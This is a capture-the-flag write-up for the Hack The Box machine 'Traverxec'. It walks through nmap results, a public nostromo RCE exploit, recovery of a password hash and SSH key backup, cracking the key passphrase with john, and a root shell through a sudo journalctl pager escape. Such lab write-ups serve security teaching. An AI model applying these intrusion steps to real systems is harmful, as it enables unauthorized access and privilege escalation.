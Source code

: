 # User

## nmap
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## nostromo http server
A search reveals an RCE exploit(`nostromo.py`).  Using `./nostromo-shell.sh 10.10.10.165 80` allows the command injection to behave more like a shell.  Use it to enumerate the system.

## enumeration

Enumeration reveals an `.htpasswd` file in `/var/nostromo/conf/.htpasswd`.  Its contents reveal a hash `david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`.  `/var/nostromo/conf/nhttpd.conf` reveals that public home directories are enabled.  Try to access `/home/david/public_www` and find a `protected-file-area` folder with a backup of ssh identify files.  Transfer the file
and unpack it.  Setup the ssh keys so you can use them.


## ssh as david
Use `ssh2john.puy` to convert `id_rsa` to a hash that john the ripper accepts:

```sh
./ssh2john.py ~/.ssh/keys/david@10.10.10.165 > ssh_priv_key_hash
```

Then use john the ripper on it

```sh
╭─zoey@nomadic ~/htb/traverxec ‹master*› 
╰─$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh_priv_key_hash2
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (/home/zoey/.ssh/keys/david@10.10.10.165)
1g 0:00:00:02 DONE (2020-04-09 21:37) 0.3952g/s 5668Kp/s 5668Kc/s 5668KC/s   ozkelo..*7¡Vamos!
Session completed
```

Use the new password to login to the machine under the david account.  Grab user.txt

# Root

## enumeration
```sh
david@traverxec:~$ ls -la
total 1272
drwx--x--x 5 david david    4096 Apr 10 00:46 .
drwxr-xr-x 3 root  root     4096 Oct 25 14:32 ..
lrwxrwxrwx 1 root  root        9 Oct 25 16:15 .bash_history -> /dev/null
-rw-r--r-- 1 david david     220 Oct 25 14:32 .bash_logout
-rw-r--r-- 1 david david    3526 Oct 25 14:32 .bashrc
drwx------ 2 david david    4096 Oct 25 16:26 bin
-rw-r--r-- 1 david david   55085 Apr 10 00:43 le_david
-rwxr-xr-x 1 david david   46476 Mar 19 19:47 le.sh
-rw-r--r-- 1 david david     807 Oct 25 14:32 .profile
-rwxr-xr-x 1 david david 1156536 Mar 19 19:47 pspy64s
drwxr-xr-x 3 david david    4096 Oct 25 15:45 public_www
drwx------ 2 david david    4096 Oct 25 17:02 .ssh
-r--r----- 1 root  david      33 Oct 25 16:14 user.txt
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

## Privilege Escalation

Resize your window really small and run the sudo command.  This should call the pager which is less.  Once less runs type `!/bin/sh` to get root.